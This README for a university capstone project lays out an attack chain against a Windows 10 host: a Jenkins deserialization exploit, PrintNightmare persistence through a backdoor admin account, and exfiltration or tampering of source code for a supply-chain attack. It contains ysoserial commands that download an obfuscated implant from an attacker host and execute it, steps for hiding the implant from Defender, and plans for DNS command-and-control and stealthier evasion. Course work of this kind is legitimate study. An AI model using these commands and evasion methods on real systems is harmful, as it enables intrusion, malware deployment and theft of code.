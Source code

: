 
# CS 564 Capstone Project
- Team Cryptid

# Info
- Target             : Windows 10
- Initial Compromise : Java Deserialization in Jenkins <= 1.638 (CVE-2015-8103)
- Persistence        : Printer Nightmare (CVE-2021-34527) to create backdoor admin account
- Purpose            : Exfiltrate source/modify source code for supply chain attack

## Vulnerable Environement Setup
- Install Windows 10 VM
- Disable Windows firewall (or at least allow traffic to port 8080 / whatever Jenkins is set to use)
- Set the following registry values at `HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint`:
    - RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    - NoWarningNoElevationOnInstall                 REG_DWORD    0x1
- Donwload and install JDK 11 from https://aka.ms/download-jdk/microsoft-jdk-11.0.22-windows-x64.msi
    - Make sure to enable the option to add `JAVA_HOME` to the PATH
    - You can run `java --version` in the Windows Command prompt to see if it installed properly
- Download vulnerable Jenkins version from https://get.jenkins.io/war/1.625/
- To run Jenkins, execute `java -jar /path/to/jenkins.war`
- Now Jenkins should be running on port 8080

## Building the Implant
- `cd` into the `implant/` directory and run `cl implant.c /Os /Fe:implant.exe /Zi`
    - Note: requires Visual Studio to be installed
- Run the Alcatraz obfuscator on the implant (https://github.com/weak1337/Alcatraz)
    - Note: Do this in a VM to be safe since Defender flags Alcatraz as malware.
    - You will need to copy all of the geneated files over before running Alcatraz (`.pdb, .ilk, .exe` etc...)
    - In Alcatraz, obfuscate all functions, and ensure entrypoint obfuscation is checked
    - This produces `implant.obfs.exe`
    - Rename `implant.obs.exe` to `cryptid.exe`

## Running the Exploit
- Generate serialized java payload: https://github.com/frohoff/ysoserial
    - `wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar`
    - Example payloads that download an implant from 192.168.187.13:8080 and executes it:
    - `java -jar ysoserial-all.jar CommonsCollections7 "curl 192.168.187.13:8080/cryptid.exe --output jenkinsTelem.exe"` > download.java
    - `java -jar ysoserial-all.jar CommonsCollections7 "jenkinsTelem.exe"` > execute.java
- Python exploit script from https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_cve-2015-8103_deser.py
- Run `python exploit.py [IP] [PORT] /path/to/java/payload`
    - If you are downloading the implant, make sure you are hosting it on a webserver before you run the exploit
    - Ex: `python -m http.server 8080`
- Other Jenkins vulns here:
    - https://github.com/gquere/pwn_jenkins

## TODO
- Max size for file writes is 100 Kb - increase this?

## Future Improvements
- Use HTTPS rather than HTTP
    - Don't need to implement encryption ourselves
- Do C2 over DNS and exfil over HTTPS instead (synchronization issues)
    - Much higher exfiltration bandwidth
- Write a custom packer to make reversing even harder
    - Tried using UPX, got flagged instantly
- Use a custom payload for printer nightmare
    - The built-in payload is flagged when host is connected to the internet
- Delete binary after exit more stealithly
    - Instead of spawning cmd, maybe spawn a different process and create a remote thread
- String obfuscation
    - Can get useful data from strings in binary
